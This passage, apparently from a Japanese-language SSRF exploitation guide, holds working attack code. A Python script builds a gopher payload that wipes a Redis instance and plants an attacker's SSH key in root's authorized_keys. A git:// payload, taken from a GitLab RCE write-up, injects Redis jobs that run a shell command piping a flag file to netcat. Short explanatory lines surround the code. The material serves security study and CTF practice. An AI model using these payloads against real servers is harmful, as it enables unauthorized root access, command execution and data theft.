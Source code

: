 ```python
sshpublic_key = "\n\nssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC8IOnJUAt5b/5jDwBDYJTDULjzaqBe2KW3KhqlaY58XveKQRBLrG3ZV0ffPnIW5SLdueunb4HoFKDQ/KPXFzyvVjqByj5688THkq1RJkYxGlgFNgMoPN151zpZ+eCBdFZEf/m8yIb3/7Cp+31s6Q/DvIFif6IjmVRfWXhnkjNehYjsp4gIEBiiW/jWId5yrO9+AwAX4xSabbxuUyu02AQz8wp+h8DZS9itA9m7FyJw8gCrKLEnM7PK/ClEBevDPSR+0YvvYtnUxeCosqp9VrjTfo5q0nNg9JAvPMs+EA1ohUct9UyXbTehr1Bdv4IXx9+7Vhf4/qwle8HKali3feIZ root@kali\n\n"
filename="authorized_keys"
path="/root/.ssh/"
passwd=""
cmd=["flushall",
"set 1 {}".format(sshpublic_key.replace(" ","${IFS}")),
"config set dir {}".format(path),
"config set dbfilename {}".format(filename),
"save"
]
if passwd:
cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
CRLF="\r\n"
redis_arr = arr.split(" ")
cmd=""
cmd+="*"+str(len(redis_arr))
for x in redis_arr:
cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
cmd+=CRLF
return cmd

if __name__=="__main__":
for x in cmd:
payload += urllib.quote(redis_format(x))
print payload
```
**Gitプロトコルを介したGitLab上のRCE**

Liveoverflowの素晴らしい解説は[こちら](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)です。

これはGitLabへの認証済みアクセスが必要なため、ハッキング対象の環境で`git`プロトコルが機能する可能性がある場合、ここにペイロードを含めています。このペイロードは参考用です。
```bash
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A%20multi%0D%0A%20sadd%20resque%3Agitlab%3Aqueues%20system%5Fhook%5Fpush%0D%0A%20lpush%20resque%3Agitlab%3Aqueue%3Asystem%5Fhook%5Fpush%20%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class%5Feval%5C%22%2C%5C%22open%28%5C%27%7Ccat%20%2Fflag%20%7C%20nc%20127%2E0%2E0%2E1%202222%5C%27%29%2Eread%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system%5Fhook%5Fpush%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created%5Fat%5C%22%3A1513714403%2E8122594%2C%5C%22enqueued%5Fat%5C%22%3A1513714403%2E8129568%7D%22%0D%0A%20exec%0D%0A%20exec%0D%0A/ssrf123321.git
```
# Memcache

**一般的にバインドされるポート: 11211**
